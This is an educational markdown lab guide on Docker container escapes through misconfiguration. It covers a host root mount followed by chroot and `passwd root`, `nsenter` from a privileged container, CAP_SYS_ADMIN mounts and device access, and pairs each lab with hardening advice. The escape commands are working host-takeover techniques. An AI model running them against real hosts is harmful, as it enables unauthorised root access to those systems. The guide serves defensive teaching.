 # 🧪 Container Escape with Docker (Educational Use Only)

> ⚠️ WARNING: These labs are for educational and defensive purposes only.  
> Run them **only in isolated, non-production environments** like VMs or lab systems.

## 🎯 Objective

Learn how insecure Docker configurations can lead to container escapes and host compromise — and how to prevent them.

---

## 🧰 Prerequisites

- A Linux VM (never your main host!)
- Docker installed
- Root access
- Tools: `gcc`, `make`, `procps`, `util-linux`

```bash
sudo apt update
sudo apt install gcc make procps util-linux -y
```

---

## 🔹 Lab 1: Host Mount Escape via `-v /:/host`

### Step 1: Run a container with full host access

```bash
docker run -it --rm --privileged -v /:/host ubuntu bash
```

### Step 2: Simulate host access

```bash
chroot /host bash
passwd root  # Example, do not use on real systems
```

✅ **Expected:** Full host access.

🧠 **Defense:** Never mount `/`, use strict volume policies.

---

## 🔹 Lab 2: Escape via `--privileged` and `/proc`

### Step 1: Start a privileged container

```bash
docker run -it --rm --privileged ubuntu bash
```

### Step 2: Enter host namespaces

```bash
nsenter --target 1 --mount --uts --ipc --net --pid
```

✅ **Expected:** You are now in the host’s namespaces.

🧠 **Defense:** Avoid `--privileged`, use minimal capabilities.

---

## 🔹 Lab 3: Simulated Kernel Escape via `CAP_SYS_ADMIN`

> This does **not** run a real exploit, but shows how dangerous capabilities can be.

### Step 1: Launch container with high privileges

```bash
docker run -it --rm --cap-add=SYS_ADMIN ubuntu bash
```

### Step 2: Try sensitive operations

```bash
mount -t proc proc /mnt
```

✅ **Expected:** You have low-level kernel control.

🧠 **Defense:** Drop all unnecessary capabilities.

---

## 🔹 Lab 4: Escape via Host Devices

### Step 1: Run container with device access

```bash
docker run -it --rm --privileged --device /dev/kmsg ubuntu bash
```

### Step 2: Write to kernel logs

```bash
echo "MESSAGE FROM CONTAINER" > /dev/kmsg
```

✅ **Expected:** Writes to host kernel logs.

🧠 **Defense:** Do not expose host devices unless absolutely needed.

---

## ✅ Wrap-Up

- **What you learned:**
    - How misconfigurations can lead to escapes
    - Common escape vectors: privileged mode, host mounts, capabilities
    - Defense-in-depth: drop caps, limit mounts, audit configs

- **Best practices:**
    - Never use `--privileged` unless critical
    - Use security profiles (AppArmor, seccomp)
    - Use namespaces and rootless containers
    - Audit Dockerfiles and runtime flags

---